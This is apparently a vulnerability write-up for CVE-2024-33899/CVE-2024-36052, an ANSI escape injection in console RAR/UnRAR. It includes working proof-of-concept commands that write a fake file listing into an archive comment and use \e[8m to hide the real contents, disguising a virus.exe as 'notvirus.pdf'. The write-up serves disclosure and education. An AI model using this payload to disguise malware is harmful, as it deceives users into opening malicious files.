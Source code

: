# CVE-2024-33899: ANSI Escape Injection Vulnerability in WinRAR

## Overview

On February 28, 2024, RARLAB released an update for WinRAR, addressing an ANSI escape sequence injection vulnerability identified in the console versions of RAR and UnRAR. This vulnerability, tracked as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows systems, affects versions 6.24 and earlier. It allows attackers to spoof screen output or cause a denial of service on Linux and Unix. This issue was resolved in version 7.00. It is important to note that the GUI version of WinRAR and the UnRAR library were not impacted by this vulnerability.

## Understanding the Vulnerability

### ANSI Escape Sequences

If you are familiar with the Linux, Unix, or Windows command line, you’ve likely encountered programs like Vim and Neofetch. These programs utilize ANSI escape sequences to modify text and background color, control the cursor, and create graphical user interfaces within the terminal. Although ANSI escape sequences can create advanced terminal programs, they can also be weaponized, as demonstrated in Stok Fredrik’s DEFCON talk.

### How WinRAR is Affected

WinRAR provides console versions of RAR and UnRAR, which can be used to create and extract RAR archives. RAR files support comments, which are displayed when listing the contents of the archive using the command `unrar l demo.rar`.

#### Vulnerability Demonstration

To check if ANSI escape sequences are filtered out in the comment section, we can use a simple payload that will display "THIS IS GREEN" in green text.

```bash
printf 'Hello \033[32mTHIS IS GREEN\033[0m\007' | rar c demo.rar
```
Upon executing rar l demo.rar, the output shows "THIS IS GREEN" in green, indicating that the comment field does not filter ANSI escape sequences.

Exploitation
This vulnerability can be exploited in various ways. Here, we will demonstrate an exploit suited for WinRAR.

Creating the Exploit
First, we will place our virus.exe file inside a RAR archive:

```bash
$ ls 
virus.exe
$ rar a demo.rar virus.exe
```

Next, we will add the following payload to the comment section:
```bash
printf 'Archive: demo.rar\nDetails: RAR 5\n\nAttributes      Size       Date   Time   Name\n----------- ---------  ---------- -----  ---------\n-rw-r--r--          7  2024-05-19 16:26  notvirus.pdf\n----------- ---------  ---------- -----  ---------\n                    7                    1\e[8m' | rar c demo.rar
```

This payload includes a fake listing where virus.exe is replaced with notvirus.pdf. The ANSI escape sequence \e[8m is used to hide all content after the comment section in the output. Consequently, the actual file listing is hidden, and our fake file listing is displayed.

## Result
In the screenshot below, you can see a large gap between the output and the shell prompt. This gap is due to the original file listing being outputted but rendered invisible using \e[8m. While experienced command line users may find this suspicious, less experienced users could easily be tricked.


## Conclusion
The ANSI escape sequence injection vulnerability in the console versions of RAR and UnRAR posed a significant risk, allowing attackers to spoof output and potentially cause denial of service. This issue, identified as CVE-2024-33899 for Linux and Unix systems and CVE-2024-36052 for Windows, was addressed in WinRAR version 7.00. Users are strongly encouraged to update to the latest version to protect against this vulnerability. The GUI version of WinRAR and the UnRAR library remain unaffected by this issue.
